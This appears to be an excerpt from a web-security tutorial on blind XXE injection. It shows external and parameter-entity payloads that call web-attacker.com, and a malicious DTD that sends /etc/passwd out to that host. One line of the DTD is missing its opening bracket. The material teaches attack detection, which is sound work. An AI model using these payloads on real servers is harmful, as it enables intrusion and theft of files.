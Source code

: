 For example, you would define an external entity as follows: `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

[Lab: Blind XXE with out-of-band interaction Web Security Academy](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)

Sometimes, XXE attacks using regular entities are blocked,  due to some input validation by the application or some hardening of the
XML parser that is being used. In this situation, you might be able to  use XML parameter entities instead. XML parameter entities are a special
kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the 
declaration of an XML parameter entity includes the percent character  before the entity name:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

And second, parameter entities are referenced using the percent character instead of the usual ampersand:

```xml
%myparameterentity;
```

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

[Lab: Blind XXE with out-of-band interaction via XML parameter entities Web Security Academy](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)

### Exploiting blind XXE to exfiltrate data out-of-band

What an attacker really wants to achieve is to exfiltrate sensitive  data. This can be achieved via a blind XXE vulnerability, but it 
involves the attacker hosting a malicious DTD on a system that they  control, and then invoking the external DTD from within the in-band XXE  payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

```xml
!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
